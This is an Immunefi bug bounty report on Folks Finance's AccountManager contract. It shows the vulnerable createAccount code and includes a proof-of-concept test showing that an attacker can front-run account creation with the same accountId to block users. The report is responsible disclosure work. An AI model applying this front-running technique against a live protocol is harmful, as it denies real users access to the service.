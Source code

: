 
# Malicious user can DoS the creation of every account at no cost by front running it with the same ```accountId```.

Submitted on Sun Aug 04 2024 08:24:13 GMT-0400 (Atlantic Standard Time) by @zarkk for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #34025

Report type: Smart Contract

Report severity: Medium

Target: https://testnet.snowtrace.io/address/0x3324B5BF2b5C85999C6DAf2f77b5a29aB74197cc

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
Malicious user can DoS the creation of every account at no cost by front running it with the same ```accountId```.

## Brief/Intro
The unique bond between ```accountId``` and ```Account ```within the ```createAccount``` function exposes Folks Finance to a critical Denial of Service (DoS) vulnerability. This vulnerability allows a malicious user to front-run legitimate account creation requests, thereby preventing the creation of any new accounts at no cost.

## Vulnerability Details
In order to utilize the lending platform, users must create an account by invoking the ```createAccount``` function of the ```AccountManager``` contract and supplying a unique ```accountId```. Below is the relevant implementation of the function:
```solidity
function createAccount(
        bytes32 accountId,
        uint16 chainId,
        bytes32 addr,
        bytes32 refAccountId
    ) external override onlyRole(HUB_ROLE) {
        // check account is not already created (empty is reserved for admin)
@>        if (isAccountCreated(accountId) || accountId == bytes32(0)) revert AccountAlreadyCreated(accountId);

        // check address is not already registered
        if (isAddressRegistered(chainId, addr)) revert AddressPreviouslyRegistered(chainId, addr);

        // check referrer is well defined
        if (!(isAccountCreated(refAccountId) || refAccountId == bytes32(0)))
            revert InvalidReferrerAccount(refAccountId);

        // create account
        accounts[accountId] = true;
        accountAddresses[accountId][chainId] = AccountAddress({ addr: addr, invited: false, registered: true });
        registeredAddresses[addr][chainId] = accountId;

        emit CreateAccount(accountId, chainId, addr, refAccountId);
    }
```
As demonstrated in the above code, if an account with the specified ```accountId``` has already been created, the creation request will be reverted. This design flaw permits an attacker to front-run the legitimate user's account creation by submitting a transaction with the same ```accountId```. Consequently, this prevents the legitimate user from creating their account and accessing the platform.

## Impact Details
The impact of this vulnerability is critical due to the nature of the attack and its implications. A malicious user can indefinitely prevent the creation of **any** new accounts on the platform by front-running legitimate account creation requests. This results in a complete Denial of Service (DoS), rendering the platform unusable for new users. The attack requires no financial cost or sophisticated technical knowledge, making it highly accessible to attackers. As the core function of the platform is to allow users to create accounts and engage in lending activities, this vulnerability directly compromises the platform's functionality and can lead to significant financial damage to the platform.

## References
https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/fb92deccd27359ea4f0cf0bc41394c86448c7abb/contracts/hub/AccountManager.sol#L35-L57

        
## Proof of concept
## Proof of Concept
To illustrate this vulnerability, add the following test under the ```"Create Account"``` section in ```AccountManager.test.ts```:
```javascript
it.only("Should fail to create account when malicious has frontrun the leigitimate user, creating an account with the same accountId so to DoS", async () => {
      const { hub, unusedUsers: oldUnusedUsers, accountManager } = await loadFixture(deployAccountManagerFixture);
      const [user, ...unusedUsers] = oldUnusedUsers;

      // user is the malicious
      // unusedUsers[0] is the legitimate

      // Front run the creation of an account with accountId by creating an account with the same accountId.
      const userAddr = convertEVMAddressToGenericAddress(user.address);
      const refAccountId: string = getEmptyBytes(BYTES32_LENGTH);
      const createAccountFrontrun = await accountManager.connect(hub).createAccount(getAccountIdBytes("ACCOUNT_ID"), 0, userAddr, refAccountId);

      // The legitimate user who tries to create his account with the accountId, but he has been frontrunned.
      const user2Addr = convertEVMAddressToGenericAddress(unusedUsers[0].address);
      const createAccountLegit = accountManager.connect(hub).createAccount(getAccountIdBytes("ACCOUNT_ID"), 0, user2Addr, refAccountId);
      // The creation actually reverts since the malicious user has already created an account with the same accountId
      await expect(createAccountLegit).to.be.revertedWithCustomError(accountManager, "AccountAlreadyCreated").withArgs(getAccountIdBytes("ACCOUNT_ID"));

      // This process can be replayed for EVERY account creation and a complete DoS to be performed. 
    });
```